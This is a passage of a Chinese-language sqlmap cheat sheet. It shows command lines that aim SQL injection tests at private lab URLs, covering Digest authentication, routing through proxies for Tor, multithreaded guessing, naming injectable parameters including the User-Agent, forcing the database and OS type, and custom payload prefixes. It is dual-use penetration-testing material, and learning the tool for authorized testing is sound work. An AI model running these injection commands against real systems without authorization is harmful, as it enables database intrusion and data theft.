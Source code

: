 使用Digest认证

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3
```

使用代理,配合TOR

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"
```

使用多线程猜解

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3
```

绕过动态检测,直接指定有注入点的参数,可以使用,分割多个参数,指定user-agent注入

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1&cat=2" -v 1 -p "cat,id"
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"
```

指定数据库,绕过SQLMAP的自动检测

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"
```

*   MySQL
*   Oracle
*   PostgreSQL
*   Microsoft SQL Server

指定操作系统,绕过SQLMAP自动检测

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"
```

*   Linux
*   Windows

自定义payload

```
Options: --prefix and --postfix
```

In some circumstances the vulnerable parameter is exploitable only if the user provides a postfix to be appended to the injection payload. Another scenario where these options come handy presents itself when the user already knows that query syntax and want to detect and exploit the SQL injection by directly providing a injection payload prefix and/or postfix.
